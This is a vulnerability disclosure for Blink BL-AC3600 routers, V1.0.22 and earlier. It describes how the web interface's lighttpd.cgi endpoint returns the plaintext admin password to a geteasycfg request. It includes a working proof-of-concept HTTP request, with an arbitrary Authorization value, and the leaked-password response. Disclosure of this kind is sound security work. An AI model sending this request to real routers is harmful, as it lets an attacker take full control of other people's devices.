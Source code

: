 # Plaintext Password Leakage in the Web Management Interface of BL-AC3600 Routers

**BUG_Author: **waiwai

**Vendor：**[Blink](https://www.b-link.net.cn/)

**Product: **[BL-AC3600](https://www.b-link.net.cn/product_29_177.html)

**Affected Version: **V1.0.22 and earlier 

**Vulnerability Files: **`libblinkapi.so`

## Description

The Web management interface of the Blink router `/cgi-bin/lighttpd.cgi` directly returns the plaintext admin password (password field) when responding to the `{"type":"geteasycfg"}` request. Attackers can obtain the admin password by constructing HTTP requests and thereby fully control the device.

When handling `geteasycfg` requests, the `bs_GetEasyInfo` function in `libblinkapi.so` is called for business logic processing. This function has a security flaw: it directly reads the administrator password (Routepwd) from the UCI configuration without encryption or desensitization processing, and directly writes the plaintext password into the JSON response and returns it.

![image-20250628010240152](./assets/Plaintext_Password_Leakage_in_the_Web_Management_Interface_of_BL-AC3600_Routers/image-20250628010240152.png)

## POC

Request: 

The value of Authorization can be filled in at will

```
POST /cgi-bin/lighttpd.cgi HTTP/1.1
Host: x.x.x.x:8080
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Referer: http://192.168.2.2/html/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: 1
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.2
Content-Length: 21

{"type":"geteasycfg"}
```

Response：

```
HTTP/1.1 200 OK
Date: Fri, 27 Jun 2025 16:53:53 GMT
Server: lighttpd/1.4.59
Content-Length: 165

{"type":"geteasycfg","version":"SOLAR-V36-300M-28A-S-EN,1.0.3","operationmode":"wisp","wanstatus":"unlink","netstatus":"link","password":"admin@123","jumpflag":"0"}
```



## Example

First request:

return default password

![passwd1](./assets/Plaintext_Password_Leakage_in_the_Web_Management_Interface_of_BL-AC3600_Routers/passwd1.png)

To verify that the vulnerability holds true, log in to the webui to modify the password and make a new request. The returned password value is the modified one.

Second request：

return modified password admin@123

![image-20250628012129383](./assets/Plaintext_Password_Leakage_in_the_Web_Management_Interface_of_BL-AC3600_Routers/image-20250628012129383.png)